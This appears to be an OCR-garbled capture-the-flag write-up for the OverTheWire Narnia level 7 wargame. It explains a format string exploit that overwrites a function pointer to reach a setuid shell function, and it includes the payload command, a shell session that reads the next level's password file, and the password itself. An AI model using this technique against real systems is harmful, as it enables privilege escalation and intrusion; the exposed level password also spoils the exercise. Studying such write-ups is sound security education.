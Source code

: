      reports Narnia image13 png 

There are four functions of interest within the program  main  vuln  goodfunction  and hackedfunction  The main function takes an argument as input and passes it onto the vuln function  This vuln function allocates 128 bytes to the argument  Going further down this function  we can see that the local 84 variable is being assigned to the address of goodfunction 

Looking at the code for goofunction  we see that the function simply prints out a message and exits  Interestingly  toward the last line of the vuln function  the snprintf function is called and uses local 84 as an argument  Therefore  it can be deduced that this program is most likely vulnerable to a format string exploit  Seeing as hackedfunction calls  bin sh with setuid privileges  if the local 88 variable is overwritten to point to the address of hackedfunction  then we will receive a shell as the narnia8 user 

    Format String Exploit

The methodology to exploiting this binary is the same as the one outlined in  Narnia 2   h e4mp3rcoeyar   We can construct a payload that will look like the following 

 address to local 84     PADDINGx

The padding will correspond to the decimal value of the address for hackedfunction so as to overwrite the value of the local 84 with the appropriate address  Note that the program will convert this decimal value into hexadecimal  and the hackedfunction will therefore be executed 

From executing the binary  we saw that the hacked address is located at 0x8048724  Converting this hexadecimal value to decimal  we see that it is equivalent to 134514468  Furthermore  the binary printed out the value for local 84 at 0xffffd568  Therefore  a string comprised of the address to this variable in little endian format  as this binary is in little endian  followed by a padding of 134514468 will result in the execution of hackedfunction 

   highlight bash   
narnia7 narnia  narnia    narnia7   python  c  print  x58xd5xffxff    134514468x n                                                                                       
goodfunction     0x80486ff  
hackedfunction     0x8048724  
  
before   ptrf     0x80486ff  0xffffd558   
I guess you want to come to the hackedfunction     
Way to go      whoami  
narnia8

  cat  etc narnia pass narnia8  
mohthuphog
   endhighlight   

    Source Code

   highlight c   
 include  stdio h   
 include  stdlib h   
 include  string h   
 include  stdlib h   
 include  unistd h   
  
int goodfunction     
int hackedfunction     
  